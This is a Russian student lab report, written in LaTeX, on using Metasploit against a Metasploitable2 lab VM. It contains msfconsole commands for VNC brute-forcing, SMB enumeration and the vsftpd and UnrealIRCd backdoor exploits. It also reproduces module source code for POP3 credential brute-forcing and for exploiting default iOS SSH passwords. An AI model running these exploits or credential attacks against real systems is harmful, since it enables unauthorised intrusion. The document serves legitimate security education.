\documentclass[a4paper, 14pt]{article}				% general format

\usepackage[utf8]{inputenc}					% accept different input encodings
\usepackage[russian]{babel}					% multilingual support (T2A)
\usepackage{graphicx}
\usepackage{float}
\usepackage{amsmath}
\usepackage[boxed]{algorithm2e}
\usepackage{url}
\usepackage{fancyvrb}
\usepackage[dvipsnames]{xcolor}

\usepackage{listings}						% typeset source code listings

% Цвета для кода
\definecolor{string}{HTML}{101AF9}			% цвет строк в коде
\definecolor{comment}{HTML}{3F7F5F}		% цвет комментариев в коде
\definecolor{keyword}{HTML}{5F1441}			% цвет ключевых слов в коде
\definecolor{morecomment}{HTML}{8000FF}		% цвет include и других элементов в коде
\definecolor{captiontext}{HTML}{FFFFFF}		% цвет текста заголовка в коде
\definecolor{captionbk}{HTML}{999999}		% цвет фона заголовка в коде
\definecolor{bk}{HTML}{FFFFFF}			% цвет фона в коде
\definecolor{frame}{HTML}{999999}			% цвет рамки в коде

% Настройки отображения кода
\lstset{
	language=C++,						% Язык кода по умолчанию
	% Цвета
	keywordstyle=\color{keyword}\ttfamily\bfseries,
	stringstyle=\color{string}\ttfamily,
	commentstyle=\color{comment}\ttfamily\itshape,
	morecomment=[l][\color{morecomment}]{\#},
	% Настройки отображения
	breaklines=true,					% Перенос длинных строк
	basicstyle=\ttfamily\footnotesize,		% Шрифт для отображения кода
	backgroundcolor=\color{bk},			% Цвет фона кода
	frame=tblr						% draw a frame at all sides of the code block
	rulecolor=\color{frame},				% Цвет рамки
	tabsize=2,						% tab space width
	showstringspaces=false,				% don't mark spaces in strings
	% Настройка отображения номеров строк. Если не нужно, то удалите весь блок
	numbers=left,					% Слева отображаются номера строк
	stepnumber=1,					% Каждую строку нумеровать
	numbersep=5pt,					% Отступ от кода
	numberstyle=\small\color{black},			% Стиль написания номеров строк
	}
% Для настройки заголовка кода
\usepackage{caption}
\DeclareCaptionFont{white}{\color{сaptiontext}}
\DeclareCaptionFormat{listing}{\parbox{\linewidth}{\colorbox{сaptionbk}{\parbox{\linewidth}{#1#2#3}}\vskip-4pt}}
%\captionsetup[lstlisting]{format=listing,labelfont=white,textfont=white}
\renewcommand{\lstlistingname}{Листинг} % Переименование Listings в нужное именование структуры

\author{Певцов Игорь, гр.53501/3}
\title{Отчет по лабораторной работе 5:\\"Инструмент тестов на проникновение Metasploit"\\ по дисциплине\\"Методы и средства защиты информации"}

\begin{document}
\maketitle

\newpage
\tableofcontents{}

\newpage
\section{Цель работы}
Изучение принципов работы инструментария тестов на проникновения Metasploit.
\section{Ход работы}
Атакующая машина - Kali linux (192.168.32.130)\\
Атакуемая машина - Metasploitable2 (192.168.32.132)\\
Запуск консоли:
\begin{Verbatim}[frame=single]
service postgresql start
service metasploit start
msfconsole
\end{Verbatim}

\subsection{Изучение}
\subsubsection{Основные понятия}
\begin{itemize}
\item auxiliary - модули, которые используются для различных целей, например, сканирование портов, DoS атаки, и даже фаззинг.
\item payload - модули, код, которых может быть выполнен на целевой машине после удачного выполнения эксплойта. Зачастую строят канал между metasploit и целевой машиной.
\item exploit - модули, которые взламывают целевую машину, после чего на ней выполняется payload, который предоставяет доступ к командной строке.
\item shellcode - это двоичный исполняемый код, который обычно передаёт управление консоли, например \verb'’/bin/sh’' Unix shell, command.com в MS-DOS и cmd.exe в операционных системах Microsoft Windows. Код оболочки может быть использован как полезная нагрузка эксплойта, обеспечивая взломщику доступ к командной оболочке (англ. shell) в компьютерной системе.
\item nop - модули, которые гененрируют команду процессору ничего не делать, обычно используются для переполнения буфера.
\item encoder - модули, для кодирования payload'ов, во время выполнения декодируются. Для кодирования используется, например, алгоритм XOR. 
\end{itemize}

\subsubsection{Запуск msfconsole и получение списка допустимых команд (help)}
При вводе команды help, можно посмотреть список доступных команд. Фреймворк Metasploit обладает тремя рабочими окружениями: msfconsole, msfcli и msfweb. Основным и наиболее предпочтительным из трех перечисленных вариантов является первый - msfconsole. Это окружение представляет из себя эффективный интерфейс командной строки со своим собственным набором команд и системным окружением.
\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_msfhelp}
\caption{Часть команд msfconsole.}
\end{figure}

\subsubsection{Базовые команды}
\begin{itemize}
\item search <keyword> - запустив команду search без указания ключевых слов, получим список всех доступных эксплоитов. Если значение <keyword> имеет имя определенного эксплоита, то этой командой ищем такой в базе данных системы.
\item info <type> <name> - если нужна конкретная и полная информация о каком-либо эксплоите или payload’е, можно применить команду info. Например, нужно подробное описание payload’а winbind. Тогда необходимо набрать в командной строке info payload winbind и получить справочную информацию по нему.
\item load, unload - команда используется для загрузки/удаления плагинов.
\item use <exploit\_name> - команда говорит фреймворку Metasploit запустить эксплоит с указанным именем.
\item setg <var> <val>, unsetg <var> - задание значения глобальной переменной <var> и наоборот.
\item show - команда используется для просмотра опций или модулей.

\item exit - выход.
\end{itemize}

\subsubsection{Команды по работе с эксплойтом}
\begin{itemize}
\item show exploits - указав команду show exploits, получим список всех доступных на данный момент эксплоитов. Имеются версии последних под различные платформы и приложения, включая Windows, Linux, IIS, Apache и так далее. Это поможет понять работу фреймворка Metasploit и почувствовать его гибкость и эффективность.
\item show options - набрав в командной строке show options, будет выведет список опций, которые можно использовать. Каждый эксплоит или payload имеет свой собственный набор опций, который можно использовать при работе с ними.
\item exploit - запускает эксплоит. Есть другая версия этой команды - rexploit, которая перезагружает код запущенного эксплоита и запускает его вновь. Эти две команды помогают работать с эксплоитами с минимальными усилиями, без перезапуска консоли.
\item set RHOST <hostname\_or\_ip> - указываем этой командой Metasploit определенный хост в сети для его изучения. Хост можно задать как по его имени, так и по IP-адресу.
\item set RPORT <host\_port> - задает для Metasploit порт удаленной машины, по которому фреймворк должен подключиться к указанному хосту
\item set payload <generic/shell\_bind\_tcp> - команда указывает имя payload’а, который будет использоваться.
\item  set LPORT <local\_port> - задаем номер порта для payload’а на сервере, на котором был выполнен эксплоит. Это важно, так как номер этого порта открыт именно на сервере (он не может быть использован никакими другими службами этого сервера и не резервируется для административных нужд). Советую назначать такой номер из набора четырех случайных цифр, порядок которых начинается с 1024. И тогда у вас все будет хорошо. Также стоит упомянуть, что необходимо менять номер порта каждый раз, когда успешно запущен эксплоит на удаленной машине.
\end{itemize}

\subsubsection{Команды по работе с БД}
\begin{itemize}
\item db\_connect - подключение к базе данных.
\item db\_status - проверка состояния базы данных.
\item db\_host - просмотр списка хостов в файле базы данных.
\item db\_del\_host - удалить какой-либо хост из базы данных.
\item db\_rebuild\_cache - пересобирает кэш.
\end{itemize}

\subsubsection{GUI оболочка Armitage}
Armitage является графической оболочкой для фреймворка Metasploit , значительно упрощающей работу с ним. С помощью Armitage можно представлять хосты-цели в визуальном режиме, получать подсказки о рекомендуемых эксплоитах в каждом конкретном случае. Для опытных пользователей Armitage предлагает возможности удаленного управления и совместной работы с Metasploit.

Запустим и протестируем работу Armitage. Укажем начальные параметры и жмем Connect.

\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_armitage}
\caption{Подключились к armitage, выбрали эксплоит.}
\end{figure}

\subsection{Подключение к VNC-серверу, получение доступа к консоли}
Просканируем порты на гостевой ОС metasploitable2.\\
\begin{Verbatim}[frame=single]
nmap -sV 192.168.32.132
\end{Verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_vnc_port}
\caption{Видим, что порт, который использует VNC это 5900, а название сервиса - VNC (protocol 3.3).}
\end{figure}
В msfconsole ищем эксплоиты
\begin{Verbatim}[frame=single]
search "VNC (protocol 3.3)
\end{Verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_vnc_search}
\caption{Некоторые доступные эксплоиты по VNC (protocol 3.3). Нам нужен vnc\_login}
\end{figure}

Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use auxiliary/scanner/vnc/vnc_login
set RHOSTS 192.168.32.132
exploit
\end{Verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_vnc_exploit}
\caption{Результат работы vnc\_login}
\end{figure}

С помощью утилиты vncviewer подключаемся к атакуемой машине, зная пароль.
\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_vnc_logged}
\caption{Доступ к консоли атакуемой машины получен}
\end{figure}

\newpage
\subsection{Получение списка директорий в общем доступе по протоколу SMB}
Получить список директорий можно с помощью модуля smb\_enumshares.\\
Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 192.168.32.132
set THREADS 4
run
\end{Verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_smb_result}
\caption{Результат работы smb\_enumshares. Видим список директорий, находящихся в общем доступе.}
\end{figure}

\subsection{Получение консоли с использованием уязвимости в vsftpd}
Для данной уязвимости есть готовый эксплоит (vsftpd\_234\_backdoor), его то мы и загружаем.\\
Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.32.132
exploit
\end{Verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_vsftpd_result}
\caption{Результат работы vsftpd\_234\_backdoor. Доступ к консоли получен.}
\end{figure}

\subsection{Получение консоли с использованием уязвимости в irc}
Аналогично предыдущему пункту, существует нужный нам эксплоит под названием unreal\_ircd\_3281\_backdoor.\\
Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.32.132
exploit
\end{Verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_irc_result}
\caption{Результат работы  unreal\_ircd\_3281\_backdoor. Доступ к консоли получен.}
\end{figure}

\newpage
\subsection{Armitage Hail Mary}
Модуль Armitage Hail Mary предназначен для поочередного применения всех эксплоитов, применимых для выбранного хоста.
\begin{figure}[h!]
\centering

\includegraphics[width=\textwidth]{rsrc/lab5_hailmary}
\caption{Результат работы Armitage Hail Mary. root доступ получен.}
\end{figure}

\subsection{Изучить три файла с исходным кодом эксплойтов или служебных скриптов на ruby и описать, что в них происходит}
Файлы находятся в директории /usr/share/metasploit-framework/modules.
Структура файлов примерно одинакова:\\
\begin{itemize}
\item{Зависимости}
\item{Класс}
\end{itemize}

\subsubsection{Файл 1. pop3\_login.rb }
Исходный код
\begin{Verbatim}[frame=single]
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'metasploit/framework/login_scanner/pop3'
require 'metasploit/framework/credential_collection'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Tcp
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report
  include Msf::Auxiliary::AuthBrute

  def initialize
  super(
    'Name'        => 'POP3 Login Utility',
    'Description' => 'This module attempts to authenticate to an 
    POP3 service.',
    'Author'      =>
    [
      'Heyder Andrade <heyder[at]alligatorteam.org>'
    ],
      'References'     =>
    [
      ['URL', 'http://www.ietf.org/rfc/rfc1734.txt'],
      ['URL', 'http://www.ietf.org/rfc/rfc1939.txt'],
    ],
      'License'     => MSF_LICENSE
  )
  register_options(
    [
      Opt::RPORT(110),
      OptPath.new('USER_FILE',
        [
          false,
          'The file that contains a list of users accounts.',
          File.join(Msf::Config.install_root, 'data'
          , 'wordlists', 'unix_users.txt')
        ]),
      OptPath.new('PASS_FILE',
        [
          false,
          'The file that contains a list of probable passwords.',
          File.join(Msf::Config.install_root, 'data',
           'wordlists', 'unix_passwords.txt')
        ])
    ], self.class)
  end

  def target
    "#{rhost}:#{rport}"
  end

  def run_host(ip)
    collection = Metasploit::Framework::CredentialCollection.new(
      blank_passwords: datastore['BLANK_PASSWORDS'],
      pass_file: datastore['PASS_FILE'],
      password: datastore['PASSWORD'],
      user_file: datastore['USER_FILE'],
      userpass_file: datastore['USERPASS_FILE'],
      username: datastore['USERNAME'],
      user_as_pass: datastore['USER_AS_PASS'],
    )

    cred_collection = prepend_db_passwords(cred_collection)

    scanner = Metasploit::Framework::LoginScanner::POP3.new(
      host: ip,
      port: rport,
      ssl: datastore['SSL'],
      cred_details: cred_collection,
      stop_on_success: datastore['STOP_ON_SUCCESS'],
      bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
      max_send_size: datastore['TCP::max_send_size'],
      send_delay: datastore['TCP::send_delay'],
      framework: framework,
      framework_module: self,
    )

    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      case result.status
      when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => 
        "Success: '#{result.credential}'
         '#{result.proof.to_s.gsub(/[\\r\\n\\e\\b\\a]/, ' ')}'"
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)
        next
      when Metasploit::Model::Login::Status::UNABLE_TO_CONNECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg =>
           "Could not connect: #{result.proof}"
        end
      when Metasploit::Model::Login::Status::INCORRECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg =>
           "Failed: '#{result.credential}',
            '#{result.proof.to_s.chomp}'"
        end
      end

      # If we got here, it didn't work
      invalidate_login(credential_data)
    end
  end

  def service_name
    datastore['SSL'] ? 'pop3s' : 'pop3'
  end
end
\end{Verbatim}
Скрипт пытается пройти аутентификацию на pop3 сервере. Скрипт ищет файлы с именами пользователей и паролями и применяет данные, найденые в них.

\newpage
\subsubsection{Файл 2. cydia\_default\_ssh.rb}
Исходный код
\begin{Verbatim}[frame=single]
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
require 'net/ssh'

class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Auxiliary::CommandShell

  def initialize(info={})
    super(update_info(info,
      'Name'           => "Apple iOS Default SSH Password 
      Vulnerability",
      'Description'    => %q{
        This module exploits the default credentials of Apple iOS
        when it has been jailbroken and the passwords for the
        'root' and 'mobile' users have not been changed.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'hdm'
        ],
      'References'     =>
        [
          ['OSVDB', '61284']
        ],
      'DefaultOptions'  =>
        {
          'ExitFunction' => "none"
        },
      'Payload'        =>
        {
          'Compat' => {
            'PayloadType'    => 'cmd_interact',
            'ConnectionType' => 'find'
          }
        },
      'Platform'       => 'unix',
      'Arch'           => ARCH_CMD,
      'Targets'        =>
        [
          ['Apple iOS', { 'accounts' => [ [ 'root', 'alpine' ],
           [ 'mobile', 'dottie' ]] } ],
        ],
      'Privileged'     => true,
      'DisclosureDate' => "Jul 2 2007",
      'DefaultTarget'  => 0))

    register_options(
      [
        Opt::RHOST(),
        Opt::RPORT(22)
      ], self.class
    )

    register_advanced_options(
      [
        OptBool.new('SSH_DEBUG', [ false, 'Enable SSH
         debugging output (Extreme verbosity!)', false]),
        OptInt.new('SSH_TIMEOUT', [ false, 'Specify 
        the maximum time to negotiate a SSH session', 30])
      ]
    )
  end

  def rhost
    datastore['RHOST']
  end

  def rport
    datastore['RPORT']
  end

  def do_login(user, pass)
    opts = {
      :auth_methods => ['password', 'keyboard-interactive'],
      :msframework  => framework,
      :msfmodule    => self,
      :port         => rport,
      :disable_agent => true,
      :config => false,
      :password => pass,
      :record_auth_info => true,
      :proxies => datastore['Proxies']
    }
    opts.merge!(:verbose => :debug) if datastore['SSH_DEBUG']
    begin
      ssh = nil
      ::Timeout.timeout(datastore['SSH_TIMEOUT']) do
        ssh = Net::SSH.start(rhost, user, opts)
      end
    rescue Rex::ConnectionError
      return
    rescue Net::SSH::Disconnect, ::EOFError
      print_error "#{rhost}:#{rport} SSH - Disconnected 
      during negotiation"
      return
    rescue ::Timeout::Error
      print_error "#{rhost}:#{rport} SSH - Timed out 
      during negotiation"
      return
    rescue Net::SSH::AuthenticationFailed
      print_error "#{rhost}:#{rport} SSH - Failed
       authentication"
    rescue Net::SSH::Exception => e
      print_error "#{rhost}:#{rport} SSH Error: 
      #{e.class} : #{e.message}"
      return
    end
    if ssh
      conn = Net::SSH::CommandStream.new(ssh,
       '/bin/sh', true)
      ssh = nil
      return conn
    end

    return nil
  end
  def exploit
    self.target['accounts'].each do |info|
      user,pass = info
      print_status("#{rhost}:#{rport} - Attempt
       to login as '#{user}' with password '#{pass}'")
      conn = do_login(user, pass)
      if conn
        print_good("#{rhost}:#{rport} - Login Successful
         with '#{user}:#{pass}'")
        handler(conn.lsock)
        break
      end
    end
  end
end
\end{Verbatim}
Эксплоит предназначен для получения доступа к консоли взломанных iOS-устройств по SSH путем проверки на наличие стандартного пароля у пользователей root и mobile.

\newpage
\subsubsection{Файл 3. opty2.rb}
Исходный код
\begin{Verbatim}[frame=single]
require 'msf/core'
require 'rex/nop/opty2'
###
# Opty2
# -----
# This class implements single-byte NOP generation for X86.  It takes from
# ADMmutate and from spoonfu.
###
class Metasploit3 < Msf::Nop
  def initialize
    super(
      'Name'        => 'Opty2',
      'Description' => 'Opty2 multi-byte NOP generator',
      'Author'      => [ 'spoonm', 'optyx' ],
      'License'     => MSF_LICENSE,
      'Arch'        => ARCH_X86)
  end
  def generate_sled(length, opts = {})
    opty = Rex::Nop::Opty2.new(
      opts['BadChars'] || '',
      opts['SaveRegisters'])

    opty.generate_sled(length)
  end
end
\end{Verbatim}
Скрипт предназначен для генерации NOP-команд(No OPeration - пустая операция). Скрипт может использоваться, например, в атаках с переполнением буфера.

\section{Выводы}
В результате выполнения работы были изучены основные направления сетевых атак, применен на практике инструмен metasploit-framework, позволяющий отрабатывать на практике атаки на хост, и, что самое главное , показывающий уязвимые места машины. Данные, полученные таким образом, могут хорошо послужить системным администраторам для закрытия лазеек в сетевой безопасности и повышения надежности сети. Инструмент metasploit является мощным средством для поиска уязвимостей, а также позволяет вносить изменения в существующие скрипты и создавать новые для отработки специфических атак, не занесенных в базу данных утилиты.

\end{document}